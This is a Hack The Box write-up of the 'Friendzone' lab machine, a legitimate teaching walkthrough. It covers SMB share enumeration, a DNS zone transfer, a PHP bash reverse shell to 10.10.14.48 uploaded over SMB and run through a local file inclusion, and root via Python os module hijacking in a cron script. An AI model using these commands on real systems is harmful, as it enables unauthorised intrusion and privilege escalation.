BOX - Hackthebox - Friendzone

# ‘“Friendzone” Hackthebox write-up’:-

[+X](https://medium.com/@elliot.7497?source=post_page-----2cc2f8e0cd26----------------------)

[Jun 2, 2019](https://medium.com/@elliot.7497/friendzone-hackthebox-write-up-2cc2f8e0cd26?source=post_page-----2cc2f8e0cd26----------------------) · 7 min read

*This was a typical linux(openBSD)box which require quite a good amount of enumeration. Overall, this was quite an interesting box to do and it teaches you a lot about DNS, zone-transfer, and python library hijacking to obtain root on the box.The root part was pretty interesting and one get to know about infamous vulnerability in the way python language execute a script, which is further exploited to gain root over this box.*


HTB logo.

# Basic enumeration:-

## Port scanning:

As usual we start with a full port nmap scan on the box.


nmap scan output

As it is clear from the scan results, that it has got SMB port open, so i will be connecting to this port and see what else is lying there. Executing the following command will list all the open SMB and their permissions.

***smbmap -H 10.10.10.123 -u root -p 445***


smbmap output on port 445

So, the **Development share has read/write access and general has read-only access.** I will be connecting to general and then Development share to see if i could find anything interesting. Also in background I have executed a nmap script to enumerate the details of all shares on the SMB on port 445.

nmap --script smb-enum-users.nse -p139 10.10.10.123

The output of this command helped me to determine the path where the file be stored if I upload anything to the box via SMB using curl.


nmap smb-enum-shares output
*So whatever I upload to Development share will be stored in /etc/Development.*

## SMB file upload:

Now, I also have read access to Development and general share, so I will be connecting via smbclient to see if I could find anything interesting there.

> root@kali:~/HackTheBox/machines/friendzone# smbclient //10.10.10.123/general -u root

> Try “help” to get a list of possible commands.
> smb: \> ls
>  . D 0 Thu Jan 17 01:40:51 2019
>  .. D 0 Thu Jan 24 03:21:02 2019
>  creds.txt N 57 Wed Oct 10 05:22:42 2018
> get
>  9221460 blocks of size 1024. 6076468 blocks available
> smb: \> get creds.txt

> getting file \creds.txt of size 57 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)

> smb: \> ^C
**> root@kali:~/HackTheBox/machines/friendzone# cat creds.txt
> creds for the admin THING:**
**> admin:WORKWORKHhallelujah@#**
> root@kali:~/HackTheBox/machines/friendzone#

In general share I found a credential which says that these creds are for some ‘admin thing’ which looks like it is the login creds for administrator.

Now I need to find the login page to supply those creds. This box has DNS server running on it which can be verified by looking over the nmap scan results. But there are two different domains — **friendzone.red and friendzoneportal.red .**

I got to know about the **friendzoneportal.red** domain by visiting the port 80 in browser.


port 80 output

## Zone transfer:

I will be doing a lookup over these two zones only to see if it leaks something important. If yes, then I will be doing **zone transfer** to acces those sub-domains. The command for the same is :

**dig axfr **[**<subdomain>@10**](http://twitter.com/10)**.10.10.123**


zone transfer esults

* * *

*...*

## Getting user:

So I have got two admin domains, **admin.friendzoneportal.red and administrator1.friendzone.red**. Adding these two domains to /etc/hosts file and accessing them one by one and supplying the creds obtained earlier, I got to know that the initial domain is just a rabbit hole. It will as you for creds and after you input one, it says that page is not developed yet. Heading over to the later one, it seems legit.


login page for admin
After logging in successfully, it shows a message to navigate to dashboard.php.


dashboard.php

There it explains how to access an image after uploading it. The image can be uploaded from **uploads.friendzone.red **subdomain . But I chose SMB to upload files as I don’t know where that uploaded image will be saved. So I opted for SMB file upload method as I knew that it will be saved in **/etc/Development .**

The file which I chose to upload was a one-liner bash shell, executed via php.
> <?php
> exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.48/1234 0>&1’”);
> phpinfo();
> ?>
The file can be uploaded by using this command.

`curl --upload-file /path/to/file.ext -u 'DOMAIN\Username' smb://172.16.17.52/ShareName/`

In this the command resorts to:
`curl --upload-file phpinfo.php -u 'root' smb://10.10.10.123/Development/`

It can be confirmed that file is uploaded by connectig to the SMB on port 445. Also the curl asks for root password while uploading, which is , by default, blank. So just hit enter and it will upload the file.


uploding my php reverse shell

So, there are couple of other shells too. To get my shell, I will have to access that file , phpinfo.php in a web browser. While accessing dashboard.php, there was a hint on how to access the file.

> please enter it to show the image
> default is image_id=a.jpg&pagename=timestamp

Also it is a LFI(Local File Inclusion), so it can be accessed by navigating to the folder where it has been uploaded. Note that there is no need to append the extension ***.php ***in URL.

The file can be accessed by:

> [https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=/etc/Development/phpinfo

This will give us the callback of my php reverse shell.


reverse shell callback
The user hash can be obtained from reverse shell only.


user hash

* * *

*...*

## Getting root:

Navigating through the directories of www-data in reverse shell, there is a mysql configuration file in **/var/www .**


ssh credentials
So I can now ssh over the box and can have an actual tty shell.


ssh user hash

I could have received the user hash via ssh also. However now I need to enumerate for processes and tasks running in the background. There is an excellent script for the same , pspy. It comes in both variant, 32-bit and 64-bit.

[ ## DominicBreuker/pspy   ### Monitor linux processes without root permissions. Contribute to DominicBreuker/pspy development by creating an account…    #### github.com](https://github.com/DominicBreuker/pspy)

One can also download the 64-bit binary so that compilation process is skipped.
https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64

I downloaded the binary and transferred it to the box via wget. Giving it the required permission to execute, (***chmod a+x pspy64***) and executing it(***./pspy64***), it started listing all the running and newly spwaned processes.


pspy output

Cool. Now I need to kee a watch over the processes which are running or if any unusual task/process/script is spawned/executed. After a minute or two, a python script is executed by root which is a bit strange.


reporter.py python file

heading over to the location where this file is saved( /opt/server_admin), and looking into the script, it appears that it is an incomplete file which doesn’t do anything other than importing a python library , OS module. So I can exploit this to get root.

## Python library hijacking:

> friend@FriendZone:/opt/server_admin$ cat reporter.py
> #!/usr/bin/python
**> import os**

> to_address = “> [> admin1@friendzone.com](https://medium.com/@elliot.7497/friendzone-hackthebox-write-up-2cc2f8e0cd26mailto:admin1@friendzone.com)> ”

> from_address = “> [> admin2@friendzone.com](https://medium.com/@elliot.7497/friendzone-hackthebox-write-up-2cc2f8e0cd26mailto:admin2@friendzone.com)> ”

> print “[+] Trying to send email to %s”%to_address

> #command = ‘’’ mailsend -to > [> admin2@friendzone.com](https://medium.com/@elliot.7497/friendzone-hackthebox-write-up-2cc2f8e0cd26mailto:admin2@friendzone.com)>  -from > [> admin1@friendzone.com](https://medium.com/@elliot.7497/friendzone-hackthebox-write-up-2cc2f8e0cd26mailto:admin1@friendzone.com)>  -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass “PAPAP”’’’

> #os.system(command)
> # I need to edit the script later
> # Sam ~ python developer

**Other than *import os* , every other command is commented out so the script doesn’t do anything effectively. I can hijack the OS module in python 2.7 (which is clear from the first line that it is executed using python 2.7) to execute the arbitrary code. I need to look for permission and the directories where os.py of python2.7 version is installed.**

[ ## Privilege Escalation via Python Library Hijacking | rastating.github.io   ### Whilst debugging a Python script today, I found that I was unable to execute it, with the stack trace pointing back to…    #### rastating.github.io](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

Locating and searching for the python 2.7 directory, I found it in /usr/lib/python2.7. The permission were 777.

**drwxrwxrwx 27 root root 16K Jun 2 20:21 python2.7**
The permission of os mudule was:
**rwxrwxr-x 1 friend friend 26K Jun 2 21:33 os.py**

It can be edited by the current user that is friend. All I need to do is to inject the code to copy the root.txt file to somewhere else such as /tmp directory and get the root shell.

I injected the following line in os.py file at the end.
**system(“cp /root/root.txt /tmp/root1.txt”)**

Now I have to wait for the cron job to execute reporter.py file and then the root hash will be copied in /tmp directory by the name of root1.txt.

After few minutes, the file is executed as before by the cron jobs and the root hash is copied in /tmp directory.

**rw-r — r — 1 root root 33 Jun 2 21:38 root1.txt**
**friend@FriendZone:/tmp$ wc -c root1.txt
33 root1.txt**

So this is it . We get the root hash. Also, FYI, the os.py module can be injected with other commands too to get root shell, but I found this method a bit straght forward.

The root part was really awesome.
If you find this write-up praise worthy, you can clap for me. I won’t mind.

# Till then, HACK THE PLANET !!!